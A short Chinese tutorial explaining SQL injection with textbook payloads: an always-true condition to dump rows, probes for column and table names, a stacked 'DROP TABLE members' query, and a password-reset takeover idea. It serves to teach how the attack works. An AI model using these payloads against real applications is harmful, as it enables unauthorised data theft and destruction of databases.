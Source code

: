 # sql注入

## 原理

“SQL注入”是一种利用未过滤/未审核用户输入的攻击方法（“缓存溢出”和这个不同），意思就是让应用运行本不应该运行的SQL代码。如果应用毫无防备地创建了SQL字符串并且运行了它们，就会造成一些出人意料的结果。

## 示例代码

以下代码是不被过滤的sql代码，通过一个个例子，我们可以实现盗取数据库中尽可能多的信息

php源码

```php
SELECT fieldlist
FROM table
 WHERE field = '$EMAIL';
```

### 1. 通过构造永真式，获取该表中所有的`fieldlist`

通过输入构造php变量`anything’ OR ‘x’=‘x`

代入原句中的代码为

```sql
SELECT fieldlist
FROM table
WHERE field = ‘anything’ or 'x'='x';
```

由于`where`后面的条件全为真，因此获得的输出为该表中所有的`fieldlist`

### 2. 获取表中其他字段名

通过输入构造语句

```sql
SELECT fieldlist
  FROM table
 WHERE field = 'x' AND email IS NULL; --';
```

该段代码在已知表中一个属性为x的情况下，构造了`and email is null`的条件，并且后方加入了sql中的注释:`--`,该段在sql中执行的过程为：如果没有`email`字段，返回`server error`，如果存在字段，没有反应。

### 3. 获取其他表的名字

```sql
SELECT email, passwd, login_id, full_name
  FROM table
 WHERE email = 'x' AND 1=(SELECT COUNT(*) FROM tabname); --';
```

如果没有该`tabname`对应的表名，会报错

### 对数据库进行任意sql语句的执行

```sql
SELECT email, passwd, login_id, full_name
  FROM members
 WHERE email = 'x'; DROP TABLE members; --';  -- Boom!
```

通过添加分号，然后添加任意sql语句，在执行第一条语句之后，便可执行下一条语句，如删除表，添加数据库用户，插入数据等任何操作。

### 4. 进行提权操作

通过已知某用户权限高的情况下，修改其默认手机等，再选择忘记密码，可以获得登陆权限，进入系统。
